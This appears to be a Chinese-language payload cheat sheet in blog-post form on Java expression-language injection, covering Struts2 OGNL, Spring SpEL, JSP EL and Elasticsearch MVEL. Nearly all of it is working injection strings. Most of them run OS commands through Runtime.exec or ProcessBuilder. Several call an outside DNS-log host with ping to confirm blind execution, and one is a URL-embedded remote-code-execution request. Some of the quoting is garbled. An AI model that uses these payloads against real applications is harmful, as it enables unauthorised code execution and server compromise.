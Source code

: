 ```yaml
---
layout: post
title: java 表达式注入
categories: java
tag: payload
---
```



# Java-Web-Expression-Language-Injection

---
## 表达式语言

### Struts2——OGNL

用法
```
java
ActionContext AC = ActionContext.getContext();
Map Parameters = (Map)AC.getParameters();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression));
```

### Spring——SPEL 表达式

用法

基本用法
 ```
java
String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
 ```

 cloudeye
 ```
${pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(""ping 776252.dnslog.info"",null).toString()}  

 ${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("ping 776252.dnslog.info",null).getInputStream())}

 ```
`http://localhost:8080/test.do?${pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc",null).toString()}  `



### JSP——JSTL_EL

```
jsp
<spring:message text="${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}"></spring:message>
```
测试payload
`
${1000-900}
`
cloudeye
```

${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("ping 776252.dnslog.info",null).getInputStream())}

```

获取web路径
```
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}
```


### Elasticsearch——MVEL

用法
```
java import org.mvel.MVEL;
public class MVELTest {
        public static void main(String[] args) {
              String expression = "new java.lang.ProcessBuilder(/"calc/").start();";
               Boolean result = (Boolean) MVEL.eval(expression, vars);
         }
  }
```
